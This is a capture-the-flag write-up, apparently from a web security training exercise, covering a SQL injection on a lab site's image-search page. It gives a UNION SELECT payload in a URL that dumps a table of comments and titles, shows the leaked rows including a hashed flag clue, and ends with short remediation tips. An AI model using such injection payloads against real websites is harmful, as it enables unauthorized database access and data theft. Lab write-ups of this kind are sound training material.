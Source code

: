 Vulnerability 14
------

The page `searchimg` take get request for Database query
Write request and send execute it: `http://10.11.200.146/?page=searchimg&id=1+UNION+SELECT%20comment,title%20from%20Member_images.list_images%20&Submit=Submit#`   

We got:
```
ID: 1 UNION SELECT comment,title from Member_images.list_images  
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 UNION SELECT comment,title from Member_images.list_images  
Title: Nsa
Url : An image about the NSA !

ID: 1 UNION SELECT comment,title from Member_images.list_images  
Title: 42 !
Url : There is a number..

ID: 1 UNION SELECT comment,title from Member_images.list_images  
Title: Google
Url : Google it !

ID: 1 UNION SELECT comment,title from Member_images.list_images  
Title: Obama
Url : Yes we can !

ID: 1 UNION SELECT comment,title from Member_images.list_images  
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

ID: 1 UNION SELECT comment,title from Member_images.list_images  
Title: tr00l
Url : Because why not ?
```

We found flag, we need to MD5 decode, lower case the result and sha256 it !

### Resolv ?
Always user prepared requests, where only field or value can be enter
Always addslash all user input
Remove javascript too
